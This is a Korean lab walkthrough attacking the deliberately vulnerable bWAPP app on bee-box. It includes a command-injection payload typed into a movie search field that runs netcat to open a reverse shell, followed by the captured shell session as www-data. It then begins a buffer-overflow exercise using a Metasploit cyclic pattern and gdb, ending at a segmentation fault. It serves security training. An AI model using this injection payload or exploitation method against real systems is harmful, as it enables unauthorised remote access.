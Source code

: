 ### 2. 검색창에 다음과 같이 입력

![image](https://user-images.githubusercontent.com/28076542/53556394-16c2ce00-3b87-11e9-92fe-c099d2b087d4.png)

* Search for a movie: `$(nc -e /bin/bash 192.168.190.155 4444)`

### 3. 결과 확인하기

```bash
root@ming:~/바탕화면# nc -lvp 4444
listening on [any] 4444 ...
192.168.190.143: inverse host lookup failed: Unknown host
connect to [192.168.190.155] from (UNKNOWN) [192.168.190.143] 55276
whoami
www-data
```

## Buffer Overflow (Local) (High)

### 1. 메타스플로잇의 pattern_create.rb로 400 바이트 만들기

```bash
root@ming:/usr/share/metasploit-framework/tools/exploit# ./pattern_create.rb -l 400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

### 400 패턴 바이트

```txt
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

### 2. Bee-Box에서 movie앱에 위 패턴 글자를 넣고 gdb로 분석

```bash
bee@bee-box:/var/www/bWAPP/apps$ gdb --args ./movie_search "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A"
GNU gdb 6.8-debian
Copyright (C) 2008 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu"...
(gdb) run
Starting program: /var/www/bWAPP/apps/movie_search Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
[Thread debugging using libthread_db enabled]
[New Thread 0xb7a866c0 (LWP 27442)]

Program received signal SIGSEGV, Segmentation fault.
```